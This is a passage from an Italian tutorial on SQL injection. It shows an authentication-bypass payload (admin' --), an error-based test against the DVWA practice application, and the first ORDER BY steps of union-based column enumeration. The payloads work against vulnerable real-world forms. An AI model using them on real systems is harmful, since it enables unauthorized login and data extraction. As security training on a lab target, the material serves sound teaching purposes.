 **Comportamento**: Verifica credenziali e permette accesso solo se valide.

### SQL Injection Base

#### Bypass Autenticazione

**Input malicious**:
- Username: `admin' --`
- Password: (vuoto)

**Query risultante**:
```sql
SELECT * FROM users WHERE username = 'admin' --' AND password = '';
```

**Spiegazione**: Il `--` è un commento SQL - tutto dopo viene ignorato.

**Query effettiva**:
```sql
SELECT * FROM users WHERE username = 'admin';
```

**Risultato**: Accesso senza conoscere la password.

## Exploitation Pratico su DVWA

### Test Vulnerabilità

#### Payload di Test

```sql
1'
```

#### Errore Risultante

```
Fatal error: Uncaught mysqli_sql_exception: You have an error in your SQL syntax;
check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1
in /var/www/html/DVWA/vulnerabilities/sqli/source/low.php:11
```

> ⚠️ **Indicatore di Vulnerabilità**: Se un input causa errori SQL, il campo è vulnerabile a SQL Injection.

### Union-Based SQL Injection

#### Determinazione Numero Colonne

**Metodo ORDER BY**:

```sql
1' ORDER BY 1 -- -
1' ORDER BY 2 -- -
1' ORDER BY 3 -- -
```
